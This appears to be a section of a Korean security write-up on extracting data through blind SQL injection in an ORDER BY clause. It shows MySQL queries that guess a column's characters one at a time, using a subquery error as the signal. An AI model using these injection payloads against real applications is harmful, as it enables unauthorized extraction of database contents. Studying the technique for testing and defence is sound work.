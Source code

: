 3.3 Blind SQL Injection으로 데이터 추출

점검 시 컬럼명, 테이블명을 알고 있는 상태여서 컬럼 내 데이터만 추출하면 되는 상황이었다.
사용한 쿼리는 아래와 같다.

```
mysql> select * from one order by (select 1 from one where (substring((select name from one limit 1),1,1)='a'));
+------+---------+
| name | id      |
+------+---------+
| park | persu   |
| kim  | chinnie |
| hong | nisam   |
| park | chang   |
| park | hyun    |
+------+---------+

mysql> select * from one order by (select 1 from one where (substring((select name from one limit 1),1,1)='p'));
ERROR 1242 (21000): Subquery returns more than 1 row
```

좀 더 위 쿼리를 분석하자면,

substring을 통해 one 테이블의 name 컬럼의 첫 번째 값의 첫 글자를 출력한다.

```SQL
mysql> select substring((select name from one limit 1),1,1);
+-----------------------------------------------+
| substring((select name from one limit 1),1,1) |
+-----------------------------------------------+
| p                                             |
+-----------------------------------------------+
1 row in set (0.00 sec)
```

이후 그 값이 p 가 맞다면, 1을 레코드 수에 맞게 출력하게 된다. (총 5번)

```SQL
mysql> select 1 from one where (select substring((select name from one limit 1),1,1)='p');
+---+
| 1 |
+---+
| 1 |
| 1 |
| 1 |
| 1 |
| 1 |
+---+
5 rows in set (0.00 sec)
```

p 값이 아닐 경우 false인 empty를 출력하기 때문에 order by 절에서 true로 표시된다.

```SQL
mysql> select 1 from one where (select substring((select name from one limit 1),1,1)='a');
Empty set (0.00 sec)
```

이렇게 다음 Blind SQL Injection을 통해 데이터를 출력 시킬 수 있었다.
order by를 통해 SQL Injection을 하기 위해 가장 중요한건
1. 파라미터를 통해 쿼리를 입력할 수 있는가?
2. 단일행, 다중행의 내용을 이해하고 있는지?
3. Blind SQL Injection을 할 수 있는가?

이정도가 아닐까 싶다. 이상입니다.
